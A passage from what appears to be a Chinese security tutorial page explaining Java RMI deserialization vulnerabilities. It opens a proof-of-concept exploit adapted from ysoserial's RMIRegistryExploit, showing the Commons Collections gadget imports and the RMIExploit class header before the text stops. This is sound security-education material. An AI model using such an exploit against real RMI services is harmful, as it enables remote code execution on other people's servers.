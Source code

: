     ![alt text](img/17.png){width=50% loading=lazy}

## RMI 反序列化漏洞

RMI通信中所有的对象都是通过Java序列化传输的，因此RMI存在反序列化漏洞。攻击者可以通过构造恶意序列化数据，触发服务端反序列化漏洞，导致服务端远程代码执行。具体利用链可参考[《Apache Common Collections反序列化》](/Sec/Web/Deserial/ACC/#2-cc1-lazymap)

??? node "PoC"

    ```java
    import org.apache.commons.collections.Transformer;
    import org.apache.commons.collections.functors.ChainedTransformer;
    import org.apache.commons.collections.functors.ConstantTransformer;
    import org.apache.commons.collections.functors.InvokerTransformer;
    import org.apache.commons.collections.map.LazyMap;

    import javax.net.ssl.SSLContext;
    import javax.net.ssl.SSLSocketFactory;
    import javax.net.ssl.TrustManager;
    import javax.net.ssl.X509TrustManager;
    import java.io.IOException;
    import java.lang.reflect.Constructor;
    import java.lang.reflect.InvocationHandler;
    import java.lang.reflect.Proxy;
    import java.net.Socket;
    import java.rmi.ConnectIOException;
    import java.rmi.Remote;
    import java.rmi.registry.LocateRegistry;
    import java.rmi.registry.Registry;
    import java.rmi.server.RMIClientSocketFactory;
    import java.security.cert.X509Certificate;
    import java.util.HashMap;
    import java.util.Map;


    /**
     * RMI反序列化漏洞利用，修改自ysoserial的RMIRegistryExploit：https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/exploit/RMIRegistryExploit.java
     *
     * @author yz
     */
    public class RMIExploit {
